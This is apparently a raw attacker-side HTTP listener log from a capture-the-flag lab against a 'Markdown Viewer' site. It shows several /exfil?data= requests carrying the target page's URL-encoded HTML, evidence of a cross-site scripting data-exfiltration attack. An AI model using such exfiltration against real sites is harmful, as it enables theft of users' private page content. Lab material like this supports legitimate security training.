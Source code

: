 ```c
10.10.14.86 - - [23/Nov/2024 21:23:46] "GET /exfil?data=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fstyle.css%22%3E%0A%20%20%20%20%3Ctitle%3EAlert%20-%20Markdown%20Viewer%3C%2Ftitle%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%20%20%20%20%3Cnav%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dalert%22%3EMarkdown%20Viewer%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dcontact%22%3EContact%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dabout%22%3EAbout%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Ddonate%22%3EDonate%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fnav%3E%0A%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%3Ch1%3EMarkdown%20Viewer%3C%2Fh1%3E%3Cdiv%20class%3D%22form-container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22visualizer.php%22%20method%3D%22post%22%20enctype%3D%22multipart%2Fform-data%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22file%22%20name%3D%22file%22%20accept%3D%22.md%22%20required%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22submit%22%20value%3D%22View%20Markdown%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%3Cfooter%3E%0A%20%20%20%20%20%20%20%20%3Cp%20style%3D%22color%3A%20black%3B%22%3E%C2%A9%202024%20Alert.%20All%20rights%20reserved.%3C%2Fp%3E%0A%20%20%20%20%3C%2Ffooter%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 21:23:48] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 21:23:48] "GET /exfil?data=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fstyle.css%22%3E%0A%20%20%20%20%3Ctitle%3EAlert%20-%20Markdown%20Viewer%3C%2Ftitle%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%20%20%20%20%3Cnav%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dalert%22%3EMarkdown%20Viewer%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dcontact%22%3EContact%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dabout%22%3EAbout%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Ddonate%22%3EDonate%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fnav%3E%0A%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%3Ch1%3EMarkdown%20Viewer%3C%2Fh1%3E%3Cdiv%20class%3D%22form-container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22visualizer.php%22%20method%3D%22post%22%20enctype%3D%22multipart%2Fform-data%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22file%22%20name%3D%22file%22%20accept%3D%22.md%22%20required%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22submit%22%20value%3D%22View%20Markdown%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%3Cfooter%3E%0A%20%20%20%20%20%20%20%20%3Cp%20style%3D%22color%3A%20black%3B%22%3E%C2%A9%202024%20Alert.%20All%20rights%20reserved.%3C%2Fp%3E%0A%20%20%20%20%3C%2Ffooter%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 21:23:53] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 21:23:53] "GET /exfil?data=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fstyle.css%22%3E%0A%20%20%20%20%3Ctitle%3EAlert%20-%20Markdown%20Viewer%3C%2Ftitle%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%20%20%20%20%3Cnav%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dalert%22%3EMarkdown%20Viewer%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dcontact%22%3EContact%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dabout%22%3EAbout%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Ddonate%22%3EDonate%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dmessages%22%3EMessages%3C%2Fa%3E%20%20%20%20%3C%2Fnav%3E%0A%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%3Ch1%3EMarkdown%20Viewer%3C%2Fh1%3E%3Cdiv%20class%3D%22form-container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22visualizer.php%22%20method%3D%22post%22%20enctype%3D%22multipart%2Fform-data%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22file%22%20name%3D%22file%22%20accept%3D%22.md%22%20required%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22submit%22%20value%3D%22View%20Markdown%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%3Cfooter%3E%0A%20%20%20%20%20%20%20%20%3Cp%20style%3D%22color%3A%20black%3B%22%3E%C2%A9%202024%20Alert.%20All%20rights%20reserved.%3C%2Fp%3E%0A%20%20%20%20%3C%2Ffooter%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%0A HTTP/1.1" 501 -
```
